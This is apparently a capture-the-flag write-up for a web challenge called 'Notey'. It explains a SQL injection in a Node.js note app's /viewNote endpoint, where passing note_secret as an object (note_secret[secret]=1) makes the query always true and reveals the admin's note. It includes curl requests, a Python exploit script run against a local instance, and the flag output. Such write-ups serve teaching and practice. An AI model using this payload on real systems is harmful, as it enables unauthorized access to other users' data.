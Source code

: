 ```yaml
---
title: Notey
date: 2024-09-03
author: zacian
tags:
  - Web
draft: false
---
```


## Description

I created a note sharing website for everyone to talk to themselves secretly. Don't try to access others notes, grass isn't greener :'( )

----

Note : While making this writeup, the challenge infrastucture was already closed, so i had to setup the application manually

## Intuition

Like the other Web challenge [Watermelon](/bhmeaq2024/watermelon/), this challenge too don't have any dedicated frontend to interact with, so we have to send request to backend manually using cURL or BurpSuite

After going through the JavaScript code in `src` folder that was provided to us as public attachment, we can spot different core application functionalities in `index.js` file. Let's go through it one by one

First the login, so let's try to login

```
$ curl -X POST http://127.0.0.1:5000/register \
    -H "Content-Type: application/x-www-form-urlencoded" \
    -d 'username=user&password=password'

....
{"message":"Registration successful"}
```

Now let's login to obtain the session cookie

```
$ curl -v -X POST http://127.0.0.1:5000/login \   
    -H "Content-Type: application/x-www-form-urlencoded" \
    -d 'username=user&password=password'

......
< Set-Cookie: connect.sid=s%3AWLtkc3mMX8pP2RC5Z39hRb3lNEdN7rZD.LqZ7dU2xaScboDj1ENDv%2FPnmfN%2BZXmuxBTtatly%2F248; Path=/; HttpOnly
....
{"message":"Login successful"} 
```

Now in the next part i had some issues. For some weird reason, i was unable to perform or use other functionalities with the cookie the application provided after loging in, i don't know what i was missing or doing wrong but whatever i did, it says `Authentication required.`, maybe we can't use that cookie to act as a user and add or view note 

Anyways in the following i came up with rather a simple python script with just the `request` module and that did the job and also the script contains the actual solution for the challenge which is to exploit a SQL Injection vulnerability in the `viewNote` input parameters

## Vulnerability

```js
app.get('/viewNote', middleware.auth, (req, res) => {
    const { note_id,note_secret } = req.query;

    if (note_id && note_secret){
        db.getNoteById(note_id, note_secret, (err, notes) => {
            if (err) {
            return res.status(500).json({ error: 'Internal Server Error' });
            }
            return res.json(notes);
        });
    }
    else
    {
        return res.status(400).json({"Error":"Missing required data"});
    }
});
```

First of all we can see, the application only checks for `note_id` and `note_secret` and doesn't check for which user is actually asking using `req.session.username` function

Check [node-js-sql-injection-guide-examples-and-prevention](https://www.stackhawk.com/blog/node-js-sql-injection-guide-examples-and-prevention/), at the very end of this article, under the Type Checking section we can see that an attacker passing in a value that gets evaluated as an Object instead of a String value can cause SQLi Vulnerability. for us it would be something like 

in `index.js` i also noticed the following

```js
app.use(bodyParser.urlencoded({
extended: true
}))
```

The extended set to true basically allows user to provide user input as an object or any other valid format

```
note_id=66&note_secret[secret]=1
```

Here `note_secret[secret]` is passed as an object, this results in the following SQL query:

```sql
SELECT * FROM notes WHERE note_id = 66 AND note_secret = `note_secret` = 1
```

The ``note_secret = `note_secret` = 1`` evaluates to TRUE and is a 1=1 attack. BUT WHY `66` ? This is cause in most CTFs say a new created user get's an id of 2 where the id of admin would be 1, similarly when we upload a single note the note_id it shows is 67 and it's a guess that the note_id of admin might be 66, now number is guessable and BruteForceable but not the note_secret and that's where the we implant our injection attack 

## Solution Code

```py
import requests

URL = "http://127.0.0.1:5000"
s = requests.Session()

GET_REQUEST_MAIN = s.get(URL)
print(GET_REQUEST_MAIN.text)

data = {"username":"test1", "password":"12345678"}
POST_REQUEST_REGISTER = s.post(f"{URL}/register", data=data)
print(POST_REQUEST_REGISTER.text)

data = {"username":"test1", "password":"12345678"}
POST_REQUEST_LOGIN = s.post(f"{URL}/login", data=data)
print(POST_REQUEST_LOGIN.text)

data = {"content":"this is content", "note_secret":"12345678"}
POST_REQUEST_ADD_NOTE = s.post(f"{URL}/addNote", data=data)
print(POST_REQUEST_ADD_NOTE.text)

GET_REQUEST_PROFILE = s.get(f"{URL}/profile")
print(GET_REQUEST_PROFILE.text)

GET_REQUEST_VIEW_NOTE = s.get(f"{URL}/viewNote?note_id=66&note_secret[secret]=1")
print(GET_REQUEST_VIEW_NOTE.text)
exit()
```

The output with the flag

```
Welcome
{"message":"Registration successful"}
{"message":"Login successful"}
{"message":"Note added successful"}
[{"note_id":67,"username":"test1","note":"this is content"}]
[{"note_id":66,"username":"admin","note":"BHFlagY{tesst_flag}"}]
```